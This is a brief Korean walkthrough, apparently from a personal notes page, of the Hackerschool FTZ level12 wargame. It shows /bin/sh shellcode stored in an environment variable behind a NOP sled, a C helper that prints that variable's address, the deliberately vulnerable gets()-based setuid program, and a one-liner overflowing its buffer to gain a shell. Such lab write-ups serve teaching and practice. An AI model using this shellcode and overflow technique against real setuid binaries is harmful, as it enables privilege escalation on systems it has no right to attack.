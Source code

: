 Hackerschool FTZ level12
===
1. EGG라는 환경변수를 만들고 nop썰매와 bin/sh를 16진수로 바꾼
 > \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80 
 
 를 저장한다
 >export EGG=` python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" '
>>\x90은 nop명령어

 2. 그 EGG의 주소 구함
 ~~~c
#include<stdio.h>
#include<stdlib.h>

int main(int argc, char* argv[]){
        printf("%p\n",getenv(argv[1]));
        return 0;
}
 ~~~

3.attackme에 버퍼오버플로우를 내고 nop썰매 안에 
EGG의 주소넣을 때 문자형으로 함.   

~~~c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
        char str[256];

        setreuid( 3093, 3093 );
        printf( "문장을 입력하세요.\n" );
        gets( str );
        printf( "%s\n", str );
}
~~~
>$(python -c 'print "A"*268+"\xfa\xf8\xff\xbf"';cat)|./attackme
>
>my-pass